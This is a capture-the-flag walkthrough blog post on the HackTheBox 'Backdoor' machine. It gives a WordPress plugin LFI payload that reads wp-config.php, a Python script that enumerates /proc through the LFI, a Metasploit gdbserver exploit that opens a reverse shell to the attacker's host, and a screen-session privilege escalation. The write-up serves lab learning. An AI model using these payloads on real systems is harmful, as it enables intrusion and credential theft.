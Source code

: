 ```yaml
---
title: "HackTheBox: \"Backdoor\" Walkthrough"
date: 2022-04-24
tags: ['hackthebox', 'ctf']
slug: "hackthebox-backdoor-walkthrough"
draft: false
---
```


# Introduction

The now retired *Backdoor* machine on HackTheBox is supposed to be an "easy" machine, so
it should be absolutely straight-forward. Let's see!

# Foothold

On this machine, I started with a directory scan, using the `fuzz-Bo0oM.txt` list, which
usually yields good results - at least on HackTheBox. We'll notice that directory
listing is enabled almost everywhere, so we can also explore manually.

In the end, we'll find a pretty standard WordPress installation with a
single plugin called "ebook-download" enabled - for which we will find a LFI vuln pretty quick:

```plain
.../filedownload.php?ebookdownloadurl=../../../wp-config.php
```

Neat - we can download the WordPress configuration, containing credentials for the database.
But it seems we can't do anything with the credentials for the database server.

Let's continue with a port scan:
```plain
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
```
Of course, `1337/tcp` stands out. But what kind of service is running there?
We can try a few simple things: Try to open it in a browser, try to SSH and as last resort,
try telnet. Sadly, none of that works.

Now, the next step took me a while: Using Linux, we can read `/proc/<pid>/cmdline`
to get information about a running process, so we might be able to find
the process which has opened port 1337. We only need to know the PID - which we don't.
So let's use the LFI we found earlier to scan a range of PIDs.

To be honest, this script could have been *a lot* easier - but somehow I got the idea
"I want to scan faster - I need multiple connections", so I ended up with this.
Maybe I'm able to use it again in the future 😉

(*Disclaimer: I'm not an async Python expert, so forgive me (or maybe even tell me)
if there is a bad mistake.*)

```python
import asyncio
import aiohttp
from aiohttp import ClientSession, ClientConnectorError

# https://stackoverflow.com/a/61478547
async def gather_with_concurrency(n, *tasks):
    semaphore = asyncio.Semaphore(n)

    async def sem_task(task):
        async with semaphore:
            return await task
    return await asyncio.gather(*(sem_task(task) for task in tasks))

async def fetch_html(url: str, session: ClientSession, **kwargs) -> tuple:
    try:
        resp = await session.request(method="GET", url=url, **kwargs)
    except ClientConnectorError:
        return (url, 404, "")
    return (url, resp.status, await resp.text())

async def make_requests(urls: set, **kwargs) -> None:
    async with ClientSession() as session:
        tasks = []
        for url in urls:
            tasks.append(
                fetch_html(url=url, session=session, **kwargs)
            )
        results = await gather_with_concurrency(10, *tasks)

    for result in results:
        print(f'{str(result[2])}')

if __name__ == "__main__":
    urls = [(
            f"http://10.10.11.125/wp-content/plugins/ebook-download/"
            f"filedownload.php?ebookdownloadurl=/proc/{i}/cmdline"
        ) for i in range(10000)]

    asyncio.run(make_requests(urls=urls))
```

This scan yields (with some garbage removed in the beginning and end,
due to the way the download script works):
```plain
suuser-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
bash-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
gdbserver--once0.0.0.0:1337/bin/true
```

Finally! On port 1337 there seems to be a `gdbserver` running. That seems
pretty unusual but why not - let's see what we can do with this.

# User

After some research, we find the `exploit/multi/gdb/gdb_server_exec` payload
in metasploit. I used the following configuration, where everything should be
pretty self-explanatory, except for `set target 1`: 0 is x86, 1 is x86_64.
Using the wrong architecture, running the exploit will fail with the message:

> The payload architecture is incorrect: the payload is x86, but x64 was detected from gdb.

```plain
msf6 > use exploit/multi/gdb/gdb_server_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(multi/gdb/gdb_server_exec) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/gdb/gdb_server_exec) > set RHOSTS 10.10.11.125
RHOSTS => 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set RPORT 1337
RPORT => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload payload/linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Sending stage (38 bytes) to 10.10.11.125
[*] Command shell session 2 opened (10.10.14.5:4444 -> 10.10.11.125:54214 ) at 2022-04-24 15:15:56 -0400

id
uid=1000(user) gid=1000(user) groups=1000(user)

```

Done! 👍

# Root

For privilege escalation, I'm going to ask LinPEAS for an idea. Under the section
"Unix Sockets Listening" there is an unusual entry: `/run/screen/S-root/964.root`.

So there seems to be a screen session running. We cannot directly access this socket file:
```plain
drwx------  2 root root  60 Apr 24 18:13 S-root
```
But as this is an "easy" machine, there are no false trails - so it's highly likely
that we *must* do something with the `screen` command.

As I had literally no idea what do to, I Googled *"access root screen session as user"*
(or something similar - didn't write down the exact search term 😉), which
lead to [this post](https://unix.stackexchange.com/a/163878). The interesting part being:
```plain
screen -x host_username/session_name
```
We know the username is `root` and the session name is also `root`, so let's try
```plain
$ screen -x root/root
```
... and we will find ourselves in a screen session with a root shell!

NB: Using a non-upgraded reverse shell, this command fails with the message:

> Must be connected to a terminal.

# Conclusion and Learnings

Although this is an "easy" machine, I struggled a bit after finding the LFI.
Enumerating the processes using `/proc` was something I didn't think off right away.
I spent way too much time on the Python script, but also learned a bit while writing it.
Also, I learned that just because a socket is not readable does not mean I can't do
anything with it. Finally, I learned about screen multi-user mode.

All in all:
I had some fun with this machine, despite the setup not looking very realistic
(except for the LFI).